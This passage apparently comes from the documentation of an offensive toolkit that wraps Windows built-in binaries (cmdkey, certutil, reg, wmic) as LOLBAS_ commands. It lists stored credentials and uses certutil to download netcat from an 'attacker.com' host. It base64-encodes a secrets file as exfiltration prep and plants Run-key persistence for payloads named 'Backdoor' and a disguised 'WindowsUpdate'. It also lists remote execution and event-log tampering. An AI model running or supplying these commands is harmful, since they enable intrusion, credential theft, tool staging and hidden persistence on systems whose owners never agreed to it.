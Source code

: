 **Credential Operations:**
```bash
# List all stored credentials
LOLBAS_CMDKEY /list

# Create persistent credential (example)
LOLBAS_CMDKEY /add:targetname /user:username /pass:password
```

#### `LOLBAS_CERTUTIL <param>`
**Description:** Leverage `certutil.exe` for file operations  
**Usage:** `LOLBAS_CERTUTIL -urlcache -split -f http://example.com/file.exe C:\\temp\\file.exe`  
**Capabilities:**
- File download without external tools
- Base64 encoding/decoding
- File integrity checking

**File Transfer Operations:**
```bash
# Download file from web server
LOLBAS_CERTUTIL -urlcache -split -f http://attacker.com/tools/nc.exe C:\\Windows\\Temp\\nc.exe

# Encode file to base64 (exfiltration prep)
LOLBAS_CERTUTIL -encode C:\\secrets.txt C:\\encoded.txt

# Decode base64 file
LOLBAS_CERTUTIL -decode C:\\encoded.txt C:\\decoded.txt
```

#### `LOLBAS_REG <param>`
**Description:** Registry manipulation via `reg.exe`  
**Usage:** `LOLBAS_REG add "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "Backdoor" /t REG_SZ /d "C:\\malware.exe"`  
**Persistence Techniques:**
- Run key modifications
- Service configuration changes
- Policy alterations

**Persistence Examples:**
```bash
# Add to Run key for persistence
LOLBAS_REG add "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\\Windows\\Temp\\payload.exe"

# Query current Run entries
LOLBAS_REG query "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"

# Delete persistence entry
LOLBAS_REG delete "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "WindowsUpdate" /f
```

#### `LOLBAS_WMIC <param>`
**Description:** Windows Management Instrumentation commands  
**Usage:** `LOLBAS_WMIC process call create "notepad.exe"`  
**Advanced Capabilities:**
- Process creation and management
- System information gathering
- Remote command execution
- Event log manipulation
